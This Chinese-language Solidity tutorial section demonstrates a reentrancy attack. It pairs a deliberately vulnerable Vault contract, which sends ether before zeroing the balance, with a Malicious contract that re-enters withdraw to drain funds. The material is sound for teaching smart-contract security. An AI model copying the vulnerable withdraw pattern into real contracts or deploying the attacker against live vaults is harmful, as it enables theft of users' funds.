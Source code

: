 ### 4. 模拟重入攻击

我们扩展场景，设计一个提款合约与攻击合约，演示如何在未做防御的情况下被重入。

**src/Vault.sol**：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "Zero balance");

        // ❌ 状态修改放后，导致可重入
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");

        balances[msg.sender] = 0;
    }

    receive() external payable {}
}
```

**src/Malicious.sol**：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IVault {
    function deposit() external payable;
    function withdraw() external;
}

contract Malicious {
    IVault public vault;
    uint256 public reentryCount;

    constructor(address _vault) {
        vault = IVault(_vault);
    }

    function attack() external payable {
        vault.deposit{value: msg.value}();
        vault.withdraw();
    }

    receive() external payable {
        reentryCount++;
        if (reentryCount < 3) {
            vault.withdraw();
        }
    }
}
```  
